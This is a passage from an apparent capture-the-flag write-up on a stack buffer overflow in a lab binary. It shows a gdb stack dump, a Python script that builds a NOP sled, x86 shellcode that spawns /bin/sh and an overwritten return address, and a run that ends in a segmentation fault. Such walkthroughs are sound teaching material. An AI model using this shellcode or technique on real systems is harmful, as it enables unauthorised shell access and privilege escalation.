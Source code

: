 ```bash
0xbffff6b0:     0x0000000b      0x000003e8      0x0000000c      0x000003e8
0xbffff6c0:     0x0000000d      0x000003e8      0x0000000e      0x000003e8
0xbffff6d0:     0x00000017      0x00000001      0x00000019      0xbffff6fb
0xbffff6e0:     0x0000001f      0xbfffffe8      0x0000000f      0xbffff70b
(gdb) x/100x $esp-400
0xbffff3d0:     0xbffff3f2      0x00000000      0x00000000      0x08048441
0xbffff3e0:     0xbffff3f2      0xbffff728      0x0804821d      0xb7fffc24
0xbffff3f0:     0x414118fc      0x41414141      0x41414141      0x41414141
0xbffff400:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff410:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff420:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff430:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff440:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff450:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff460:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff470:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff480:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff490:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff4a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff4b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff4c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff4d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff4e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff4f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff500:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff510:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff520:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff530:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff540:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff550:     0x41414141      0x41414141      0x41414141      0x41414141
```

We can see our `0x41` is `A` and we can see those in `ESP`. We'll use `0x90` in our final exploit so we don't have to be precise and we'll use `0xbffff500` as our address for now.

```python
BUFFER_SIZE=362
SHELL_CODE = "\x31\xc0\x50\x68\x2f\x2f\x73"
SHELL_CODE += "\x68\x68\x2f\x62\x69\x6e\x89"
SHELL_CODE += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
SHELL_CODE += "\xcd\x80\x31\xc0\x40\xcd\x80"
NOP_SLED = "\x90"*(BUFFER_SIZE-len(SHELL_CODE))
EIP = "\x00\xf5\xff\xbf" #0xbffff500
PAYLOAD = NOP_SLED + SHELL_CODE + EIP
print PAYLOAD
```

We create `exploit.py` so we can use it to pass our payload as a parameter to `/usr/local/bin/chal`.

```bash
thrasivoulos@Sneaky:/tmp$ /usr/local/bin/chal $(python exploit.py)
Segmentation fault (core dumped)
```
